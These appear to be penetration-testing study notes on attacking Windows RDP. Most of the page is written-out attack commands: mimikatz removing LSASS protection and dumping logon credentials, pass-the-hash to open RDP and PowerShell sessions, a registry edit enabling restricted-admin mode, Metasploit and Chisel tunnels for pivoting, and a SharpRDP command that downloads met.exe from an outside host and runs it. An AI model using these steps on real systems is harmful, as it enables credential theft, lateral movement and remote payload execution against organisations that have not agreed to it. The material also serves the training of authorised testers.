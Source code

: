 ##RDP

RDP is a multichannel network protocol developed by Microsoft and is used for communication
between Terminal Servers and their clients. When an RDP connection is created, the NTLM hashes will reside in memory for the duration of
the session. The session does not terminate without a proper logout, which means simply
disconnecting from the sessions will leave the hashes in memory.We can dump the hash if we find a RDP jump server.

```
mimikatz # privilege::debug
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```

We can also use /restrictedadmin argument to mstsc.exe, so we don't need to supply clear text password to RDP

pass the hassh, and lauch a mstsc.exe with admin's hash
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
In the case that restrictedadmin is disable on target machine, we can enable it first.

lanuch an admin powershell
```
mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```
Access to remote resource through a powershell session and enable the restrictedadmin mode
```
PS C:\Windows\system32> Enter-PSSession -Computer appsrv01

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

#### Reverse RDP Proxying with metasploit

configure a reverse tunnel through the Meterpreter session and use that with a SOCKS proxy

```
msf5 exploit(multi/handler) > use multi/manage/autoroute
msf5 post(multi/manage/autoroute) > set session 1
msf5 post(multi/manage/autoroute) > exploit

```

```
post(multi/manage/autoroute) > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf5 auxiliary(server/socks4a) > exploit -j
```

add proxy rules
```
kali@kali:~$ sudo bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf'
```

RDP to remote target
```
kali@kali:~$ proxychains rdesktop 192.168.120.10
```

#### Reverse RDP Proxying with Chisel
[Chisel](https://github.com/jpillora/chisel.git) is an open-source tunneling software written in Golang. It works by setting up a TCP
tunnel and performing data transfers over HTTP, while securing it with SSH.

compile chisel on Kali with the go build
```
kali@kali:~$ sudo apt install golang
kali@kali:~$ git clone https://github.com/jpillora/chisel.git
kali@kali:~$ cd chisel/
kali@kali:~/chisel$ go build
```

commpile Chisel for windows exe, -ldflags -s -w to strip debugging info

```
env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

Set up the chisel server on kali
```
kali@kali:~/chisel$ ./chisel server -p 8080 --socks5
```

enable ssh password fo the tunnel, and set up ssh portfoward
```
kali@kali:~$ sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config
kali@kali:~$ sudo systemctl start ssh.service
kali@kali:~$ ssh -N -D 0.0.0.0:1080 localhost
```

trafer chisel.exe to windows, and run the client to connect to kali server
```
C:\Tools> chisel.exe client kaliserverIP:8080 socks
```

now RDP with proxychains
```
kali@kali:~$ sudo proxychains rdesktop 192.168.120.10
```

#### RDP remote code execution
The RDP application (mstsc.exe) builds upon the terminal services library mstscax.dll. This
library exposes interfaces to both scripts and compiled code through COM objects. We can use a tool called [SharpRDP](https://github.com/0xthirteen/SharpRDP) to exeucte command remotely using RDP.
```
C:\Tools> sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```

